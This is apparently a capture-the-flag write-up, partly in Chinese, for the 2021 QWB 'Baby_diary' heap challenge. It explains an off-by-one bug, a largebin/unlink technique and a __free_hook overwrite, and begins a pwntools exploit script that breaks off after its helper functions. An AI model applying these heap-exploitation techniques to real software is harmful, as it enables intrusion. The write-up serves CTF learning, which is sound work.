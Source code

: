 ## Baby_diary| SOLVED | NN

![thumbnail (5)](2021qwb/thumbnail%20(5).png)

![image (9)](2021qwb/image%20(9).png)

输入函数存在off by one漏洞

由于要绕过检查，我们利用largebin的残留数据伪造chunk，再通过off by one改inuse位，实现unlink，这里需要改一下fd，由于输入函数会放‘\x00’，这里要爆破一下，后面就是leak和打freehook了。

```python
from pwn import *
#sh=process('./baby_diary')
#sh=remote('8.140.114.72', 1399)
elf=ELF('./baby_diary')
libc=ELF('./libc-2.31.so')
context.arch="amd64"
#context.log_level="debug"
def add(size, content='/bin/sh\x00'):
    sh.recvuntil(">> ")
    sh.sendline("1")
    sh.recvuntil("size: ")
    sh.sendline(str(size))
    sh.recvuntil("content: ")
    sh.sendline(content)
 
def show(idx):
    sh.recvuntil(">> ")
    sh.sendline("2")
    sh.recvuntil("index: ")
    sh.sendline(str(idx))
 
def delete(idx):
    sh.recvuntil(">> ")
    sh.sendline("3")
    sh.recvuntil("index: ")
    sh.sendline(str(idx))
 
def stop():
    print str(proc.pidof(sh))
    pause()
 
def pwn():
    add(0x4c60)                  
```